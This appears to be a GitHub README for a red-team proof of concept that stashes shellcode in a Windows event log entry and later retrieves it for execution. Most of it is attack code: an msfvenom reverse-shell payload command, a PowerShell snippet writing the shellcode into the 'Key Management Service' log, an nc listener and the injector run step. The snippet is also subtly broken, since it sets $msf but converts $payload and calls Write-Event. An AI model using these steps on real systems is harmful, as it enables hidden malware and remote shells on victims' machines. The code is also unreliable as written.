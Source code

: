 ***Unintelligent Code can be found here***

## Blog Post ##
https://www.blackhillsinfosec.com/windows-event-logs-for-red-teams/


EventLogForRedTeams is a proof-of-concept for showing how a malicious payload can be stored in a Windows event log entry and later retrieved for execution. This technique is not original, and was first discussed here: https://threatpost.com/attackers-use-event-logs-to-hide-fileless-malware/179484/ and https://securelist.com/a-new-secret-stash-for-fileless-malware/106393/
 

Powershell Write-EventLog Command
```powershell
# Create variable to contain payload
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f hex

$msf = '<Insert Shellcode as Hex Literal String'

# Convert Payload variable to hex byte array
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')

# Create new event log entry
Write-Event -LogName 'Key Management Service' -Source KmsRequests -EventID 31337 -EventType Information -Category 0 -Message 'Here be Dragons' -RawData $HashByteArray
```

Start your listener
```bash
nc -nvlp 1337
```
Execute code injector

```powershell
.\EventLogForRedTeams.exe
```

![Injecting Payload into Event Log](img/msf.png)

As of July 13, 2022, execution will be successful however, Microsoft Defender will eventually catch the shellcode running in memory (AMSI) and kill the process. That is not an issue as in the real world as such vanilla payload would not be used operationally. Well hopefully not at least.
